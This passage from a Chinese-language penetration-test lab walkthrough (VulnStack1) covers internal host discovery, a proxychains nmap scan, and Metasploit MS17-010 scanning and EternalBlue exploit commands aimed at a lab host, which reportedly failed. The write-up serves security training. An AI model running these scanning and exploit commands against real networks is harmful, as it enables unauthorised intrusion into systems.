 使用 ```auxiliary/scanner/discovery/udp_sweep``` 扫描结果如下
![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_27.png)

发现了 192.168.52.143（win7）、192.168.52.141（win2003）、192.16	8.52.138（win2008）主机

也可以使用 proxychains 代理 nmap 进行端口扫描（时间非常长）
```shell
proxychains nmap -Pn -sT 192.168.52.141
```

![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_24.png)
![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_25.png)

### 尝试控制域内其他主机

既然是 win7，直接用 MS17-010(445），也就是永恒之蓝打一波

先扫描一波看看有没有
```shell
use auxiliary/scanner/smb/smb_ms17_010
set rhost 192.168.52.141
run
```

结果如下
![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_28.png)

然后尝试攻击
```shell
use exploit/windows/smb/ms17_010_eternalblue
set rhost 192.168.52.141
run
```
结果如下
![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_29.png)

这里攻击失败了，因为目标机是 32 位系统，而 MSF 内置的漏洞是 64 位的，不过可以参考这个[攻击](https://blog.csdn.net/qq_41617034/article/details/91051614)

后面对 win2008（64位）的攻击也没有生效，可能是有些别的因素影响生效
